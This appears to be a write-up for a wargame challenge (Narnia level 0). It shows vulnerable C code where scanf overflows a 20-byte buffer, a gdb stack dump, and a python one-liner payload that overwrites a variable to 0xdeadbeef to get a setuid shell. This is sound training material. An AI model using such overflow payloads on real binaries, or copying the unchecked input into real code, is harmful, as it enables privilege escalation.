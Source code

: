 ```C
	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```
While debugging, here's the memory:
```
(gdb) p &buf
$1 = (char (*)[20]) 0x7fffffffe4a0
(gdb) p $rsp
$2 = (void *) 0x7fffffffe4a0
(gdb) x/64x $rsp
0x7fffffffe4a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe4b0:	0x004007c0	0x00000000	0x41414141	0x00000000
0x7fffffffe4c0:	0xffffe5b0	0x00007fff	0x00000000	0x00000000
0x7fffffffe4d0:	0x004007c0	0x00000000	0xf7a2d830	0x00007fff
0x7fffffffe4e0:	0x00000000	0x00000000	0xffffe5b8	0x00007fff
0x7fffffffe4f0:	0x00000000	0x00000001	0x004006ed	0x00000000
0x7fffffffe500:	0x00000000	0x00000000	0x47dc9386	0x6163f3c9
0x7fffffffe510:	0x00400600	0x00000000	0xffffe5b0	0x00007fff
0x7fffffffe520:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe530:	0x819c9386	0x9e9c0cb6	0xe78c9386	0x9e9c1c0c
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe560:	0x004006ed	0x00000000	0x00400830	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe580:	0x00400600	0x00000000	0xffffe5b0	0x00007fff
0x7fffffffe590:	0x00000000	0x00000000	0x00400629	0x00000000
```
Overflowing `buf` we can rewrite the `val` value:
```bash
narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ python -c 'print("B"*20  +"\xef\xbe\xad\xde")' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef

```
